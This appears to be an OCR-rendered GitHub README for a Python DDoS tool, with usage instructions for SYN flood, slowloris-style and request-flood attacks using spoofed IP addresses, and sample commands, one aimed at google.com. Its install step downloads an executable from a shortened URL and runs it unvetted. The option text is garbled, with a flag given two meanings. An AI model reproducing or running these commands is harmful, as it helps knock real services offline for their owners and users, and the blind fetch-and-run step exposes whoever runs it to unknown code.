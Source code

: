 # Python3 ddos script

## install:

### wget is.gd/ddosnow && chmod +x ddosnow && ./ddosnow

## usage: ./ddosnow -t [target] -p [port] -t [number threads] 
optional arguments: -h, --help show this help message and 
exit -v, --version show program's version number and exit 
options: -d <ip|domain> Specify your target such an ip or 
domain name -t <float> Set timeout for socket -T <int> 
Set threads number for connection (default = 1000) -p 
<int> Specify port target (default = 80) |Only required 
with pyslow attack| -s <int> Set sleep time for 
reconnection -i <ip address> Specify spoofed ip unless 
use fake ip -Request Enable request target -Synflood 
Enable synflood attack -Pyslow Enable pyslow attack 
--fakeip Option to create fake ip if not specify spoofed 
ip Example:
     ./pyddos -d www.example.com -p 80 -T 2000 -Pyslow
    ./pyddos -d www.domain.com -s 100 -Request
    ./pyddos -d www.google.com -Synflood -T 5000 -t 10.0
